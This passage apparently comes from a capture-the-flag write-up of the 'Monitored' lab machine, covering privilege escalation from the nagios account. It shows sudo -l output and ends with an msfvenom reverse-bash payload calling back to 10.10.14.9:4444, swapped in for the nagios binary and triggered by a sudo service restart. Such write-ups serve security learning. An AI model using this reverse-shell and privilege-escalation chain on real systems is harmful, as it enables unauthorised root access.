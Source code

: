 When I run `sudo -l`, I get this list of commands I can run with sudo:
```
User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
```

`/usr/bin/php` really sticks out there. Everything else could work, but php is a whole language to work with so I check [gtfobins](https://gtfobins.github.io/gtfobins/php/), and I see this:

![Screenshot 2024-10-31 at 11.36.58 PM.png](/assets/images/Monitored/Screenshot 2024-10-31 at 11.36.58 PM.png){: .center-aligned width="600px"}

That should do it. But it asks for the password because I'm reading the output wrong. I can run `sudo /usr/bin/php`, but only on the listed phps files. Wishful thinking, or wishful not thinking so much I guess. That's ok, still a lot to work with.  

![Screenshot 2024-10-31 at 11.57.22 PM.png](/assets/images/Monitored/Screenshot 2024-10-31 at 11.57.22 PM.png){: .center-aligned width="600px"}

![Screenshot 2024-10-31 at 11.58.20 PM.png](/assets/images/Monitored/Screenshot 2024-10-31 at 11.58.20 PM.png){: .center-aligned width="600px"}



`msfvenom -p cmd/unix/reverse_bash LHOST=10.10.14.9 LPORT=4444 -f raw -o shell.sh`
then transfer the file
then replace `/usr/local/nagios/bin/nagios`
`sudo /usr/local/nagiosxi/scripts/manage_services.sh restart nagios`
with my listener on 4444
